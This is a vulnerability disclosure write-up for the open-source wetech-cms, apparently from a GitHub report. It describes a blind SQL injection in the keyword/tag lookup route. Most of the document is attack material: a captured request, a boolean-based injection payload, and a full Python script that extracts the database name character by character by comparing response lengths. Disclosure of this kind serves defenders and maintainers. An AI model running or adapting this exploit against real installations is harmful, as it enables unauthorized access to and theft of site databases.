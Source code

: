 **BUG_Author:**

hadagaga

**Vendor:**

https://github.com/cjbi/wetech-cms

**Software:**

https://github.com/cjbi/wetech-cms

**Vulnerability File:**

wetech-cms-master\wetech-core\src\main\java\tech\wetech\cms\dao\TopicDao.java

![image-20241128204712241](img/image-20241128204712241-1732799189720-1.png)

​	By routing we are located to the tag retrieval function

![image-20241128205044185](img/image-20241128205044185-1732799189721-2.png)

​	and get the following data packet

```http
GET /keyword/1 HTTP/1.1
Host: 172.24.95.182:8888
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.0.0 Safari/537.36 Edg/131.0.0.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://172.24.95.182:8888/index
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Cookie: collapase-nav=collapse-nav1; JSESSIONID=561775642554B23D11BFD032DEE33BB4
Connection: close
```

​	Construct payload:

```sql
1' or keyword like (case when ascii(substr(database(),1,1))=1 then 'a' else '' end) and keyword like '
```

​	So we have the following python script

```python
import requests
url="http://172.21.55.165:8888/keyword/1"
url1=url+"' or keyword like (case when ascii(substr(database(),1,1))=10 then 'a' else '' end) and keyword like '"#前十个字符串的10位false包
url2=url+"' or keyword like (case when ascii(substr(database(),1,1))=100 then 'a' else '' end) and keyword like '"#前十个字符串的100位false包
url1_1=url+"' or keyword like (case when ascii(substr(database(),10,1))=10 then 'a' else '' end) and keyword like '"#前一百个字符串的10位false包
url2_1=url+"' or keyword like (case when ascii(substr(database(),10,1))=100 then 'a' else '' end) and keyword like '"#前一百个字符串的100位false包
def req():
    req1 = requests.get(url1)#获取前十个字符串的100位false包
    req2 = requests.get(url2)#获取前十个字符串的100位false包
    req1_1 = requests.get(url1_1)#获取前一百个字符串的10位false包
    req2_1 = requests.get(url2_1)#获取前一百个字符串的100位false包
    r_len1 = len(req1.text)
    r_len2 = len(req2.text)
    r_len1_1 = len(req1_1.text)
    r_len2_1 = len(req2_1.text)
    for i in range(1,12):
        for k in range(32,127):
            payload="' or keyword like (case when ascii(substr(database(),{i},1))={k} then 'a' else '' end) and keyword like '".format(i=i,k=k)#SQL注入payload
            th_url = url + payload
            second = requests.get(th_url)
            s_len = len(second.text)
            if k < 100:
                if i < 10:
                    if s_len != r_len1:
                        print(chr(k), end='')
                        break
                else:
                    if s_len != r_len1_1:
                        print(chr(k), end='')
                        break
            else:
                if i < 10:
                    if s_len != r_len2:
                        print(chr(k), end='')
                        break
                else:
                    if s_len != r_len2_1:
                        print(chr(k), end='')
                        break
def main():
    req()

if __name__ == '__main__':
    main()
```

​	Successfully obtain the library name:

![image-20241127134337976](/image-20241127134337976-1732686251093-2-1732721872717-1-1732721891177-9-1732797677430-1-1732798458177-1-1732799189721-3.png)
